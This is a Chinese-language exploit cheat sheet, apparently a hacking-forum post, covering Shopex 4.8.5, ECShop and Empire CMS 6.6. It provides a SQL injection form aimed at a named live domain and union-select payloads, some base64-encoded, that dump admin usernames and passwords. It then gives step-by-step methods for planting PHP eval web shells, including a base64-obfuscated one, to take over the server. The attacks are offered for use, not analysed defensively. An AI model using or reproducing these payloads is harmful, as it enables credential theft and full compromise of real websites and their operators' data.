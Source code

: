 <h2>Shopex 4.8.5 SQL Injection Exp (product-gnotify)</h2>

<form action=”http://www.lpboke.com/?product-gnotify” method=”post” name=”submit_url”>

<input type=”hidden” name=”goods[goods_id]” value=”3″>

<input type=”hidden” name=”goods[product_id]” value=”1 and 1=2 union select 1,2,3,4,5,6,7,8,concat(0x245E,username,0x2D3E,userpass,0x5E24),10,11,12,13,14,15,16,17,18,19,20,21,22 from sdb_operators”>

<input type=”submit” value=””>

</form>

fuck

<body>

</html>

保存为html格式，替换代码中的网站，本地打开后点击小图标，出现新页面，帐号密码爆出来了，默认后台：shopadmin

拿shell方法….

第一步 页面管理 修改模版 然后选一个XML编辑

开始用 live http 抓包 你们懂的 然后把第一个POST包给抓出来

然后改包 id=1273923028-info.xml&tmpid=1273923028&name=index_temp.php&file_source=

解释一下 id是你选择的模版文件夹名称 后面的info.xml 是你修改的XML文件 tmpid= 你们懂的 就是模版文件夹 然后 name 是你提交的文件名字 file_source 是后门或者shel

我这里是一句话 你们懂的 然后提交了之后 地址是这样的http://Madman.in/themes/文件名称/你的木马名称


### 0x46 ecshop漏洞总汇 

关键字：powered by ecshop普通代码：user.php?act=order_query&order_sn=’ union select 1，2，3，4，5，6，concat(user_name，0x7c，password，0x7c，email)，8 from ecs_admin_user/*

变种代码：
search.php?encode=YToxOntzOjQ6ImF0dHIiO2E6MTp7czoxMjU6IjEnKSBhbmQgMT0yIEdST1VQIEJZIGdvb2RzX2lkIHVuaW9uIGFsbCBzZWxlY3QgY29uY2F0KHVzZXJfbmFtZSwweDNhLHBhc3N3b3JkLCciXCcpIHVuaW9uIHNlbGVjdCAxIyInKSwxIGZyb20gZWNzX2FkbWluX3VzZXIjIjtzOjE6IjEiO319
直接在网站后台加入代码回车就能爆出帐号密码，再去掉代码加上/admin回车就能直接进后台了。拿shell方法很简单，找到“库项目管理”再选择“配送的方式”，在代码最下面插入php一句话木马：<?php eval($_POST[x]);?> 不行就换php木马的预代码！

接着保存，一句话路径是：http://www.xxx.org/myship.php ; 打开“ASP+PHP两用Shell.html”填入地址，点击一下环境变量，成功之后点击上传文件就可以拿shell了。


### 0x46 帝国cms 6.6最新版本 

自定义页面-增加自定义页面-随便写个.php文件名，内容写：<script language=”php”>echo base64_decode(“PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=”);</script>

如果内容直接添一句话或者php大马是无用的，因为他会生成xxx.php前先给你执行，

PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4= 就是 <?php @eval($_POST[‘cmd’]);?> 的base64加密。

所以生成xxx.php后 会出现内容 <?php @eval($_POST[‘cmd’]);?> 在文件里，然后用菜刀直接连接吧。
